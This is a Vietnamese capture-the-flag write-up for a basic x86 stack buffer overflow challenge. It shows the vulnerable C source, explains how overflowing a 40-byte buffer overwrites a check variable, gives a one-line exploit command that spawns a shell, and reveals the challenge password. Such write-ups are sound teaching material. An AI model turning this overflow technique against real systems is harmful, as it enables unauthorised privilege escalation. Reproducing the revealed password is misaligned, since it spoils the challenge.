

# ELF x86 - Stack buffer overflow basic 1

```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```

Bài này hàm `fgets(buf,45,stdin)` cho phép nhập 44 kí tự trong khi mảng `buf` chỉ có 40 kí tự, ta đoán được chắc chắn nó sẽ đè lên biến `check` (các bạn có thể kiểm tra lại bằng gdb). Ta chỉ cần đè lên biến `check = 0xdeadbeef` là có thể lấy được shell.

```bash
cat <(python2 -c "print 'A' * 40 + '\xef\xbe\xad\xde'") - | ./ch13
```

Ta dùng `cat <() - |` để giữ shell sau khi lấy được



Password là `1w4ntm0r3pr0np1s`
